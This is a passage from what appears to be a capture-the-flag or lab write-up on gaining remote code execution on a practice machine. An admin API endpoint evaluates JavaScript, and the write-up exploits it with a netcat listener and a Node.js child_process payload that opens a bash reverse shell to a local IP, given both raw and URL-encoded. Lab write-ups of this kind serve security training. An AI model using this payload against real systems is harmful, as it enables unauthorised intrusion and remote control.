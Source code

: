 ![alt text](../../assets/images/guitjapeo/image-9.png)

## RCE

Now as administrator, we have access to another endpoint `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, it appears we can send commands with JavaScript. So, we set up a netcat listening on port 12345 and load the following URL in the browser or via curl with the administrator's cookie.

```bash
nc -lvnp 12345
```

URL-encode the following JavaScript

```javascript
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"')
```

and add it to the URL as

```
https://guitjapeo.thl/api/command/?cmd=require%28%27child_process%27%29.exec%28%27bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.116%2F12345%200%3E%261%22%27%29
```

![alt text](../../assets/images/guitjapeo/image-10.png)
